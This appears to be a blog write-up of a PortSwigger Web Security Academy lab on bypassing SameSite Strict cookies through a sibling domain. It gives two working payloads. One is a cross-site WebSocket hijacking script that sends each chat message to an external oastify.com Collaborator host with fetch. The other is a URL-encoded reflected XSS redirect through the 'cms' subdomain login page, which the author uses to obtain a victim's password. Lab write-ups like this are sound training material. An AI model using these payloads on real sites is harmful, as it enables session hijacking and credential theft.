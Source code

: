 ```yaml
---
layout: post
title:  "SameSite Strict bypass via sibling domain"
date:   2024-10-13 12:20:54 +0530
categories: [BSCP, CSRF]
---
```


## Objective 

This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.

To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

## Solution

As mentioned in the lab objective, this is the chat function that is vulnerable to cross site websocket hijacking attack 

![]({{ site.baseurl }}/assets/images/csrf-36.png)

How we can exploit, this is simple POC that I built it 

```html
<script>
    var ws = new WebSocket('wss://0a68001a041224f68871cf4f00b40051.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://ixjsw8wfyq7abbvtx9s7sbls1j7av0jp.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

This is how it works, basically we are calling the chat and sending a `READY` message to the server meaning to establish the connection and if any connection establishes.. then messages passes between parties will be sent to external collab server which kinda performs a OOB interaction 

Then, Once after delivering the payload to victim we may see a collaborator pingback from the websocket server 

![]({{ site.baseurl }}/assets/images/csrf-37.png)

Now, url encoded the above code where we built it to trigger the OOB interaction into the following POC 

```html
<script>
    document.location = "https://cms-0a51004b0435faa1812061a800a300c2.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%35%31%30%30%34%62%30%34%33%35%66%61%61%31%38%31%32%30%36%31%61%38%30%30%61%33%30%30%63%32%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%35%72%78%74%30%63%7a%76%35%70%34%77%66%30%36%66%77%34%76%35%35%66%6b%35%67%77%6d%6e%61%64%79%32%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```

Here, hwo it works.. we have separate subdomain called `cms` where it has login page which supports both `GET` and `POST` request login and it is vulnerable to XSS via `GET` method 

Pasted the above POC into the exploit server, `Stored it -> Deliver the exploit to victim` and then looking into our colllaborator we got the password of carlos 

![]({{ site.baseurl }}/assets/images/csrf-38.png)

With the password, we can just login as `carlos` and that solves the lab 